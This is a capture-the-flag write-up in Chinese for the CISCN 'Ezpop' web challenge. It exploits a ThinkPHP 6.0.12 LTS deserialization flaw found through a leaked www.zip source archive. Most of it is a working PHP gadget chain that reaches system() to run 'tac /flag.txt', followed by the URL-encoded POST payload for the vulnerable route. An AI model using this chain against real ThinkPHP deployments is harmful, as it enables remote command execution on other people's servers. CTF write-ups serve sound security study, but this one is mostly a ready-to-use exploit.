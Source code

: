 #CTF #CISCN #WP 
# MapleLeaves WriteUp
## 队员
[Do1phln](www.0error.net) [b477ery](https://blog.477.moe/) [sfc9982](https://googles.plus/) [0HB](https://harry0597.com/)
## Web

### Ezpop

thinkphp 6.0.12lts 存在反序列化漏洞 https://www.freebuf.com/vuls/321546.html  
扫描可知 www.zip 存在源码泄露，下载后可知存在反序列化路由 `/index.php/index/test`  
```php
<?php
namespace think{
    abstract class Model{
        private $lazySave = false;
        private $data = [];
        private $exists = false;
        protected $table;
        private $withAttr = [];
        protected $json = [];
        protected $jsonAssoc = false;
        function __construct($obj = ''){
            $this->lazySave = True;
            // $this->data = ['whoami' => ['ls /']];
            $this->data = ['whoami' => ['tac /flag.txt']];
            $this->exists = True;
            $this->table = $obj;
            $this->withAttr = ['whoami' => ['system']];
            $this->json = ['whoami',['whoami']];
            $this->jsonAssoc = True;
        }
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace{
    echo(urlencode(serialize(new think\model\Pivot(new think\model\Pivot()))));
}
```

```htmlmixed
url: /index.php/index/test
post: a=O%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A13%3A%22tac+%2Fflag.txt%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A13%3A%22tac+%2Fflag.txt%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3Bs%3A0%3A%22%22%3Bs%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D
```
